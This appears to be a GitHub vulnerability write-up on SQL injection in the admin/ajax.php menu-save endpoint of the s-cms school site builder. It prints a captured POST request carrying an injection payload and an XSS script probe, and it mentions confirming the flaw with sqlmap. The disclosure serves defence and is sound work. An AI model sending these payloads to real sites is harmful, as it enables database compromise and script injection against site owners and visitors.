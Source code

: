 ##  Analysis of SQL injection vulnerabilities in s-cms school website building system (including applets)
### Vulnerability Analysis
In the file \qpqywz-v5.0.0325\4.edu.scms5\admin\ajax.php, the parameter $sql is not strictly filtered.
<img width="418" alt="图片" src="https://user-images.githubusercontent.com/128341787/226555568-f9c8620f-7a87-4757-ae74-8262407eae96.png">
### Vulnerability verification

Log in to the background, and at the menu management module - New menu, add a menu to grab data packets and test the data packets.
<img width="413" alt="图片" src="https://user-images.githubusercontent.com/128341787/226555859-4f0bffe4-5269-411b-a299-658a8925d64b.png">

<img width="413" alt="图片" src="https://user-images.githubusercontent.com/128341787/226555906-e11210b9-f444-4b69-9f37-ab173142b8df.png">



Obtain the request package and response package as follows

```
POST /admin/ajax.php?action=save&type=menu&lang=0 HTTP/1.1
Host: s-cms
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 5035
Origin: http://s-cms
Connection: close
Referer: http://s-cms/admin/
Cookie: count_all=0; authx=; userx=; passx=; user=admin; pass=e317896f881c24dd527ea70a654d0a00; A_type=1; auth=1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1; newsauth=all; productauth=all; textauth=all; formauth=all; bbsauth=all; add=%E6%9C%AC%E5%9C%B0%E6%9C%AC%E5%9C%B0%E6%9C%AC%E5%9C%B0; PHPSESSID=d137s9gahccif2r0eif5pt918e
order_1=1' or 1=0 &title_1=%E7%BD%91%E7%AB%99%E9%A6%96%E9%A1%B5&entitle_1=index&url_1=&hide_1%5B%5D=0&sub_1=0&order_67=1&title_67=%3Cscript%3Ealert('XSS')%3C%2Fscript%3E&entitle_67=%3Cbr+%2F%3E%3Cb%3EDeprecated%3C%2Fb%3E%3A+Automatically+populating+%24HTTP_RAW_POST_DATA+is+deprecated+and+will+be+removed+in+a+future+version.+To+avoid+this+warning+set+'always_populate_raw_post_data'+to+'-1'+in+php.ini+and+use+the+php%3A%2F%2Finput+stream+instead.+in+%3Cb%3EUnknown%3C%2Fb%3E+on+line+%3Cb%3E0%3C%2Fb%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cb%3EWarning%3C%2Fb%3E%3A+Cannot+modify+header+information+-+headers+already+sent+in+%3Cb%3EUnknown%3C%2Fb%3E+on+line+%3Cb%3E0%3C%2Fb%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cb%3EWarning%3C%2Fb%3E%3A+Cannot+modify+header+information+-+headers+already+sent+in+%3Cb%3EC%3Aphpstudy_proWWWS-CMSfunctionconn.php%3C%2Fb%3E+on+line+%3Cb%3E3%3C%2Fb%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cb%3EWarning%3C%2Fb%3E%3A+session_start()%3A+Cannot+send+session+cache+limiter+-+headers+already+sent+in+%3Cb%3EC%3Aphpstudy_proWWWS-CMSfunctionconn.php%3C%2Fb%3E+on+line+%3Cb%3E4%3C%2Fb%3E%3Cbr+%2F%3E11&url_67=&hide_67%5B%5D=0&sub_67=0&order_41=2&title_41=%E5%AD%A6%E6%A0%A1%E6%A6%82%E5%86%B5&entitle_41=General+situation+of+school&url_41=&hide_41%5B%5D=0&sub_41=0&order_42=1&title_42=%E5%AD%A6%E6%A0%A1%E7%AE%80%E4%BB%8B&entitle_42=School+profiles&url_42=&hide_42%5B%5D=0&sub_42=41&order_43=2&title_43=%E5%8A%9E%E5%AD%A6%E7%90%86%E5%BF%B5&entitle_43=School+running+idea&url_43=&hide_43%5B%5D=0&sub_43=41&order_44=3&title_44=%E7%BB%84%E7%BB%87%E6%9C%BA%E6%9E%84&entitle_44=Organization&url_44=&hide_44%5B%5D=0&sub_44=41&order_45=4&title_45=%
```


Use the tool sqlmap to verify that SQL injection exists

<img width="402" alt="图片" src="https://user-images.githubusercontent.com/128341787/226559684-a9c7ea43-4b33-49ff-87d7-7840e01e79ab.png">

<img width="402" alt="图片" src="https://user-images.githubusercontent.com/128341787/226559705-173a7047-8311-41be-bc53-7c563e22a6c5.png">


